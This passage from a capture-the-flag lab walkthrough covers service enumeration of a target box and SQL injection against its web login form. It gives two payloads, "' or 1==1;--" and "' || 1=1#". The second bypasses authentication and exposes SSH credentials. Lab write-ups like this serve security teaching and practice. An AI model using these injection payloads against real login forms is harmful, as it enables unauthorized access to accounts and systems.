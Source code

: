 ```bash
```

This scan provides more details about each service:
- Port 22 (SSH) is still shown as filtered.
- Port 80 is running Apache httpd 2.2.22 on Debian.
- Port 3128 is running Squid http proxy version 3.1.20.

## Web Application Exploitation HTTP 80

### Exploring the Web Application

Next, we navigate to the web application running on port 80. While the writeup doesn't provide details about the initial page, we can assume it contains a login form that we'll try to exploit.

### SQL Injection Attempt
On the main page there is a login form. We attempt a simple SQL injection by inputting the following into the login form:

```sql
' or 1==1;--
```

This results in an error message:

```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11;' and password='' 11;'' at line 1]
```

This error message confirms that the application is vulnerable to SQL injection, but there seems to be some filtering in place.

### Step 5: Refining the SQL Injection

We try a different SQL injection payload:

```sql
' || 1=1#
```

This payload successfully bypasses the login mechanism, and we're presented with the following message:

```
**Welcome john@skytech.com**

**As you may know, SkyTech has ceased all international operations.**

To all our long term employees, we wish to convey our thanks for your dedication and hard work.

**Unfortunately, all international contracts, including yours have been terminated.**

The remainder of your contract and retirement fund, **$2**, has been payed out in full to a secure account. For security reasons, you must login to the SkyTech server via SSH to access the account details.

**Username: john**
**Password: hereisjohn**

We wish you the best of luck in your future
```
